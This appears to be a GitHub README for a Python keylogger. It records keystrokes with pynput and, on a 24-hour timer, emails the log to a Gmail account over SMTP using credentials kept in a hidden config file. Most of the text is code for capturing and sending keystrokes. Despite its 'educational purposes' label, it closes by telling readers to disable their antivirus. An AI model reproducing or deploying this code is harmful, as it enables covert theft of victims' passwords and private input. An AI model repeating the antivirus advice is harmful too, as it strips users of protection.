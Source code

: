 # Keylogger

Keylogger with send message gmail
The program reads the buttons entered from the keyboard key
Sends in the form of a log to the mail

The program is written for educational purposes.

# Import
```python
import pynput.keyboard
import threading
import smtplib
```

# Explanation
Settings may differ from preference and SMTP. Server
Debuglevel -> False, Turns on when debugging a program
```python
def send_mail(email, password, message):
    """Send email smtp.google.com."""
    server = smtplib.SMTP_SSL('smtp.gmail.com', 465)
    server.set_debuglevel(False)
    server.login(email, password)
    server.auth_plain()
    server.sendmail(email, email, message)
    server.quit()
```
# Zilogger
Gets the input time interval for sending email, and variables from the config.py(is hidden) file for authorization on the SMTP server
```python
import keylogger
import config

# 86400 second -> 24 hours
my_keylogger = keylogger.Keylogger(86400, config.EMAIL, config.PASSWORD)
my_keylogger.start()
```
# Warning

Atnivirus may issue a warning about infection, disable the antivirus for installation
